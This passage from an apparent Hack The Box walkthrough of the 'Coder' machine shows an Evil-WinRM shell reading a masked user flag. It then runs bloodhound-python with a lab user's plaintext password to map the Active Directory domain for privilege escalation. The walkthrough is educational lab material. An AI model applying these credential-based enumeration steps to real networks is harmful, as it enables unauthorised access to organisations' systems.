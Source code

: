 
And grab `user.txt`:

    
    
    *Evil-WinRM* PS C:\Users\e.black\Desktop> type user.txt
    6214c8ed************************
    

## Shell as administrator

### Bloodhound

#### Collect

I’ll collect Bloodhound data using the Python script remotely from my host:

    
    
    oxdf@hacky$ bloodhound-python -c All -u e.black -p ypOSJXPqlDOxxbQSfEERy300 -ns 10.10.11.207 -d coder.htb -dc coder.htb --zip
    INFO: Found AD domain: coder.htb
    INFO: Getting TGT for user
    WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
    INFO: Connecting to LDAP server: coder.htb 
    WARNING: LDAP Authentication is refused because LDAP signing is enabled. Trying to connect over LDAPS instead...
    INFO: Found 1 domains
    INFO: Found 1 domains in the forest
    INFO: Found 1 computers
    INFO: Connecting to LDAP server: coder.htb
    WARNING: LDAP Authentication is refused because LDAP signing is enabled. Trying to connect over LDAPS instead...
    INFO: Found 10 users
    INFO: Found 55 groups
    INFO: Found 3 gpos
    INFO: Found 5 ous
    INFO: Found 19 containers                      
    INFO: Found 0 trusts
    INFO: Starting computer enumeration with 10 workers
    INFO: Querying computer: dc01.coder.htb
    INFO: Done in 00M 28S
    INFO: Compressing output into 20231120165133_bloodhound.zip  
    

I’ll upload that data into the Bloodhound GUI. The first thing I typically do
is mark the users I own as owned. In this case, that’s svc_teamcity, e.black,
and probably s.blade.

#### e.black

e.black doesn’t have any outbound control. They are a member of an additional
interesting group, PKI Admins:

